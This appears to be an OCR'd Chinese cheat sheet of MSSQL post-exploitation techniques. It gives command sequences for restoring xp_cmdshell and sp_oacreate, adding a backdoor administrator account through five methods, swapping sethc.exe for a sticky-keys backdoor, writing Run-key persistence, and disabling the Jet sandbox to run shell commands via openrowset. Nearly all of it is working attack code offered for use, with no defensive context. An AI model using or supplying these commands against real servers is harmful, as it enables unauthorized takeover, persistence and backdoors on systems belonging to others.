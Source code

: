 则可以用以下语句恢复   
dbcc addextendedproc ("sp_oacreate","odsole70.dll")   
dbcc addextendedproc ("xp_cmdshell","xplog70.dll")   
这样可以直接恢复，不用去管sp_addextendedproc是不是存在



1、用xp_cmdshell：
  	exec master.dbo.xp_cmdshell "net user admin admin /add"
  	exec master.dbo.xp_cmdshell "net localgroup administrators admin /add"
2、无xp_cmdshell情况下,用sp_oacreate跟sp_oamethod：
  	declare @object int   
  	exec sp_oacreate 'wscript.Shell',@object out	 
  	exec sp_oamethod @object,'Run',NULL,'net user admin admin /add'
  	exec sp_oamethod @object,'Run',NULL,'net localgroup Administrators admin /add'
  	注：regsvr32 /s c:\windows\system32\wshom.ocx 启动wscript.shell
3、用sp_oacreate跟FSO
  	declare @o int
  	exec sp_oacreate 'scripting.filesystemobject', @o out
  	exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
  	declare @oo int
  	exec sp_oacreate 'scripting.filesystemobject', @oo out
  	exec sp_oamethod @oo, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\
  	system32\dllcache\sethc.exe';
4、用xp_regwrite (db_owner,需重启)：
  	exec master.dbo.xp_regwrite 'hkey_local_machine','software\microsoft\windows\currentversion\
  	run','eadd1','reg_sz','net user admin admin /add'
  	exec master.dbo.xp_regwrite 'hkey_local_machine','software\microsoft\windows\currentversion\
  	run','eadd2','reg_sz','net localgroup administrators admin /add'
5、用sp_add_job：
  	exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT'
  	use msdb exec sp_delete_job null,'x'
  	exec sp_add_job 'x'
  	exec sp_add_jobstep Null,'x',Null,'1','CMDEXEC','cmd /c net user admin admin /add'
  	exec sp_add_jobserver Null,'x',@@servername exec sp_start_job 'x'







 很多人SA直接用沙盒模式成功了好多机器，但我从来没实践过，也不太清楚成功率如何。当扩展被删除时，先恢复对注册表的读写存储。
dbcc addextendedproc ('xp_regread','xpstar.dll')
dbcc addextendedproc ('xp_regwrite','xpstar.dll')

修复沙盒的保护模式
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;--

查看'SandBoxMode'值是否已经变成0了。

exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

最后调用沙盒模式
select * from openrowset('microsoft.jet.oledb.4.0',';database=C:\WINDOWS\system32\ias\dnary.mdb','select shell("cmd.exe /c net user user passwd /add")')
